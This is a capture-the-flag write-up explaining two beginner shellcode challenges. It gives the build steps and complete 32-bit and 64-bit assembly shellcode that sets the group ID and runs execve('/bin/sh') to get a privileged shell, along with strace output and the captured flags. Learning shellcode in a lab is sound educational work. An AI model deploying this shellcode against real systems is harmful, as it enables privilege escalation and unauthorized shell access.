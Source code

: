 - [Writing Shellcode](#writing-shellcode)
  - [Compiling](#compiling)
- [Simple Shellcode](#simple-shellcode)
  - [shellcode-32](#shellcode-32)
    - [Full Script + Solve](#full-script--solve)
  - [shellcode-64](#shellcode-64)
    - [Full Script + Solve](#full-script--solve-1)
 
# Writing Shellcode
This is going to be an overview of a handful of the shellcode-based challenges
rather than for just one, as they're similar and more of a stepping stone to 
controlling processes than the be-all and end-all. 

The general goal of these challenges is to write shellcode to
result in the following:
```c
int egid = getegid();
setregid(egid, egid);
execve('/bin/sh', 0, 0);
```

## Compiling
```make
make 32:
        gcc -m32 -c -o shellcode.o shellcode.S && \
        gcc -o shellcode shellcode.o -m32 && \
        objcopy -S -O binary -j .text shellcode.o shellcode.bin

make 64:
        gcc -m64 -c -o shellcode.o shellcode.S && \
        gcc -o shellcode shellcode.o -m64 && \
        objcopy -S -O binary -j .text shellcode.o shellcode.bin
```

The binary took `shellcode.bin` and used it to run our code, and then we had a privileged shell
that would allow us to get the flag. 

# Simple Shellcode
## shellcode-32
For this challenge, we just had to write any 32bit shellcode that would accomplish the goal. 
All this required was the general system call calling conventions. THe first call is the 
easiest as it doesn't have any arguments. We just have to get the call number into %eax
and then use `int 0x80` to make the call. 

```gas
#include <sys/syscall.h>

.globl main
.type main, @function

#include <sys/syscall.h>

.globl main
.type main, @function

main:
    // getegid()
    mov $SYS_getegid, %eax
    int $0x80
```

When calling `setregid()` we have to pass the result of the previous call as
arguments. In IE32 the first few arguments are passed in `%ebx`, `%ecx`, and `%edx`. As usual, the
result of the previous call is in `%eax`. 

```gas
    // setregid(getegid(), getegid())
    mov %eax, %ebx
    mov %eax, %ecx
    mov $SYS_setregid, %eax
    int $0x80
```

When calling `execve` we need to input our string. To do this, the string has to be 
somewhere in memory. The easiest way to do that is to push it onto the stack. As we do this,
however, we need to keep in mind the length of the string. We push 4 bytes onto the stack at
one time, and our string is only 7 bytes. In order to rectify this, we can add an additional 
`/` to the beginning of the string to pad it out to 8 bytes without changing how it will run. 
We also need to push our null byte. 

```gas
    // execve("/bin/sh", 0, 0)
    push $0
    push $0x68732f6e
    push $0x69622f2f
    mov $SYS_execve, %eax
    mov %esp, %ebx
    mov $0, %ecx
    mov $0, %edx
    int $0x80
```

After we compile our code, we can use `strace` to make sure that functions
are being called the way we want them to. 

```
$ strace ./shellcode
...
getegid()                               = 1019
setregid(1019, 1019)                    = 0
execve("//bin/sh", NULL, NULL)          = 0
...
```

### Full Script + Solve
```gas
#include <sys/syscall.h>

.globl main
.type main, @function

main:
    // getegid()
    mov $SYS_getegid, %eax
    int $0x80

    // setregid(getegid(), getegid())
    mov %eax, %ebx
    mov %eax, %ecx
    mov $SYS_setregid, %eax
    int $0x80

    // execve("/bin/sh", 0, 0)
    push $0
    push $0x68732f6e
    push $0x69622f2f
    mov $SYS_execve, %eax
    mov %esp, %ebx
    mov $0, %ecx
    mov $0, %edx
    int $0x80
```
```
$ ./shellcode-32
Reading shellcode from shellcode.bin

$ cat flag
cand{execve_bin_sh}
```

## shellcode-64
This challenge is essentially the same as shellcode-32, just in 64bit. The main
difference here is the system call numbers, the registers that arguments are passed in, and how
the system calls are made. Because we are using `<sys/syscall.h>` we can ignore the numbers themselves
and just use the variables. The arguments are passed in the same registers as in the usual 64bit assembly. 
And instead of using `int 0x80`, we use `syscall`. We also can't directly push variables onto the stack,
so we move them into a register and then push the register. 

### Full Script + Solve
```gas
#include <sys/syscall.h>

.globl main
.type main, @function

main:
    // getegid()
    mov $SYS_getegid, %rax
    syscall

    // setregid(getegid(), getegid())
    mov %rax, %rdi
    mov %rax, %rsi
    mov $SYS_setregid, %rax
    syscall

    // execve("/bin/sh", 0, 0)
    mov $0, %rax
    push %rax
    mov $0x68732f6e69622f2f, %rax
    push %rax
    mov $SYS_execve, %rax
    mov %rsp, %rdi
    mov $0, %rsi
    mov $0, %rdx
    syscall
```
```
$ ./shellcode-64
Reading shellcode from shellcode.bin

$ cat flag
cand{exEcvE_b1n_5h}
```
